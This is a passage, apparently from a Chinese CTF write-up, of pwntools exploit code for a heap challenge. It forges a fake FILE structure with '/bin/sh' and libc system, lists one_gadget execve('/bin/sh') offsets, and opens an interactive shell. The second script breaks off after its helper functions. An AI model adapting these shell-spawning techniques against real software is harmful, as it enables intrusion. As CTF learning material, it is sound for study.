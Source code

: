 ```python
'''
edit(0x1000,p64(0x000555555554FC0)+p64(0x7ffff7b15e89)+p64(0))
# _dl_open_hook get  

# _IO_list_all 0x7ffff7dd5500
n=0x18
edit(0x2000,p64(0)+p64(0x10*n+1)+'\x00'*(0x10*n-8)+p64(0x21)*5)
free(0x2010)


n=320+1
edit(0x2000,p64(0)+p64(0x10*n+1)+'\x00'*(0x10*n-8)+p64(0x21)*5)
free(0x2010)

system=libc.sym['system']
#
fio=magic+0x2000
fake = "/bin/sh\x00"+p64(0x61)+p64(0)+p64(0)+p64(0)+p64(1)
fake =fake.ljust(0xa0,'\x00')+p64(fio+0x8)
fake =fake.ljust(0xc0,'\x00')+p64(1)
fake = fake.ljust(0xd8, '\x00')+p64(fio+0xd8-0x10)+p64(libc.symbols['system'])
edit(0x2000,fake)

'''
0x3fe36	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x3fe8a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xd6175	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
#gdb.attach(p,'b *0x7ffff7ab0a30')
gdb.attach(p,'b _IO_vtable_check')
cmd("A")

p.interactive()

```

# EXP
概率(1/16):实际好像更高...可能`stdou`内容有些东西可能不需要那么精准..
```python
from pwn import *
def cmd(c):
	p.sendlineafter(">> ",str(c))
def add(size):
	cmd(1)
	p.sendlineafter("size: ",str(size))
def edit(off,c):
	cmd(2)
	p.sendlineafter("set: ",str(off))
	p.sendlineafter("size: ",str(len(c)))
	p.sendafter("content: ",c)
def free(off):
	cmd(3)
	p.sendlineafter("set: ",str(off))
#context.log_level='debug'
```